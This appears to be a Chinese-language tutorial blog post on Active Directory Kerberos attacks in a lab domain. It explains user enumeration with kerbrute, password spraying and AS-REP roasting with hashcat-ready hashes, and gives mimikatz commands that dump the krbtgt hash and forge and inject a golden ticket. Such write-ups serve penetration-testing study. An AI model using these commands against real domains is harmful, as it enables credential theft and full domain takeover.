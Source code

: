 ## 用户名枚举

当机器不在域中时，可以利用AS_REQ的原理来枚举域用户，在AS_REQ阶段，client中提交了client name，当用户不存在时返回包提示KDC_ERR_C_PRINCIPAL_UNKNOWN，用户名正确就返回TGT票据。可以通过kerberos pre-auth从域外对域用户进行枚举

github上有编译好的现成的工具：https://github.com/ropnop/kerbrute/releases

![usereunm](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/usereunm.png)

使用编译好的工具，我们能够在一台不在域内的机器，但能和DC进行通信的机器上枚举域内用户

也可以使用python脚本：https://github.com/3gstudent/pyKerbrute

+ 为什么一定的得是域外且能够与DC进行通信的机器

  其实不然，我们在域内的机器上运行相同的脚本同样能够枚举出用户名，但在枚举过程中缺失了一个hacker用户，通过抓取流量来进行分析。通过流量的观察，域内机器进行了一次AS-REQ请求，域外机器请求了两次，二者的返回包提示都相同，估计是精确性的问题，没有接着深究。

+ AS-REQ请求过程不是需要使用用户的密码hash进行加密吗，为什么没有域凭证的域外机器能够请求成功

  该工具是通过kerberos的报错来进行判断的，只需要提供用户名就能进行用户枚举，只是利用了用户名是否存在的报错不一致性

## 密码喷洒攻击(Password Spraying)

传统的密码猜测，通过固定的用户名，然后猜测密码，很有可能导致账户被封禁。而密码喷洒攻击正好与其相反，密码喷洒通过固定的密码来猜测用户名。

Kerbrute同样可以拿来验证密码。

![passwordspray](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/passwordspray.png)

登录成功会产生日志4768

![passwordspray2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/passwordspray2.png)

一般来说密码错误会抛出错误代码24

![erroecode-24](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/erroecode-24.png)

该攻击同样可以在域外进行，但并不支持kerberos

![crackpexec](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/crackpexec.png)

## AS-REP Roasting攻击

对于域用户，如果设置了选项”Do not require Kerberos preauthentication”，此时向域控制器的88端口发送AS_REQ请求，对收到的AS_REP请求enc-part的cipher进行组合解密就能获得用户的明文。（enc-part底下的cipher，这部分是使用用户hash加密session-key)![np](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/np.png)

![enc-part](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/enc-part.png)

通过手动组装，前面32位16进制字符+$+后面的16进制字符得到repHash，`format("$krb5asrep$23${0}@{1}:{2}", userName, domain, repHash)`得到字符串

也可以使用工具自动抓取(方便很多，只需要自己添加加密规则即可)

![areproast](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/areproast.png)

将抓取到的内容手动添加规则

```
$krb5asrep$23$Administrator@hack.com:...............
```

为什么是23?

![23](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/as/23.png)

将完整的字符串交给hashcat就可以尝试破解。

+ kerberos的预身份验证

  kerberos的预身份验证其实就是AS_REQ&AS_REP的过程，如果用户关闭了这个过程，使用指定的用户去请求票据，此时域控不会做任何验证，直接返回TGT票据和加密的session-key,我们就能通过返回包来破解用户密码

+ 寻找关闭预身份验证的用户

  ```powershell
  Import-Module .\PowerView.ps1
  Get-DomainUser -PreauthNotRequired -Verbose
  ```

![finduser](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/finduser.png)

当然工具本身能够寻找符合标准的用户，并dump对应的cipher内容

+ 关闭/开启预身份验证

  ```powershell
  #开启
  Import-Module .\PowerView.ps1
  Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
  #关闭
  Import-Module .\PowerView.ps1
  Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
  ```

导出hash的方法也不只一种

类似：https://github.com/HarmJ0y/ASREPRoast 的powershell脚本也可以用

## 黄金票据(GoldenTicket)

我们知道kerberos的认证流程，AS_REP会返回使用krbtgt用户的htlm hash加密的TGT,如果我们能够拿到高权限的TGT，就可以发送给TGS来申请任意服务的ST。金票就是利用这一点，因此制作金票需要的条件

+ krbtgt用户的ntlm-hash
+ 域名称
+ 域的SID值
+ 伪造的用户名，任意即可

这里使用mimikatz简单了解一下黄金票据的制作

+ 抓取krbtgt用户的ntlm-hash

  ```shell
  mimikatz "lsadump::dcsync /domain:hack.com /user:krbtgt"
  ```

  ![krbtgt-ntlm-hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/krbtgt-ntlm-hash.png)

+ 获取域的sid

  ```
  whoami /user
  ```

  事实上不用再次获取，上个步骤中就已经获取到了域的sid

+ 使用mimikatz生成黄金票据

  ```shell
  mimikatz.exe "kerberos::golden /domain:hack.com /sid:S-1-5-21-754643614-3937478331-2139222398 /krbtgt:8d0e4e5d28d91ac99f7b77368455d9b7 /user:testuser /ticket:golden.kirbi"
  ```

  ![make-ticket](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ass/make-ticket.png)

+ 利用生成的票据

  ```shell
  kerberos::purge
  kerberos::ptt golden.kirbi
  kerberos::list
  ```

  将生成的票据导入到内存中，就能够访问域控机器的盘符(域内的任意一台机器)